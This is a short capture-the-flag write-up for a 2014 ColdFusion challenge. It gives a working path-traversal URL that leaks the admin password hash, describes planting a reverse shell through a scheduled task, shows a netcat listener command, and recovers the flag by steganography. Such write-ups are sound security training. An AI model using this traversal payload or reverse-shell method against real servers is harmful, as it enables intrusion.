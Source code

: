 # D-CTF 2014: Exploit 100 – Nuclear

**Category:** Exploit
**Points:** 100
**Description:**

> 1947-1991 / 10.11.1.2. Don't forget to switch the VPN server.

## Write-up

Exploit the local path inclusion vulnerability in the ColdFusion admin panel:

```
http://10.11.1.2/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

This gets you an MD5 hash, which is the hash of the password `~Coldfusion`.

Now you can use the ColdFusion admin panel to add a ‘scheduled task’ to fetch your JSP/PHP/CFM shell and put it in a web-exposed directory. We used [a simple reverse shell](http://pastebin.com/09gpcxWL) in combination with `nc -v -n -l -p 4444`.

Once you have a shell, start digging. The flag is in `C:\Documents and Settings\admin\Desktop\paranoia.jpg` and looks like this:

![](paranoia.jpg)

The file name hints at [`paranoia.jar`](https://ccrma.stanford.edu/~eberdahl/Projects/Paranoia/) which is a steganography tool. Using that tool (or another stenography tool) with the provided image and the key `That's the most evilest thing I can imagine.` we find the flag:

```
The Cold War is over but Cold War thinking survives.
```

## Other write-ups and resources

* none yet
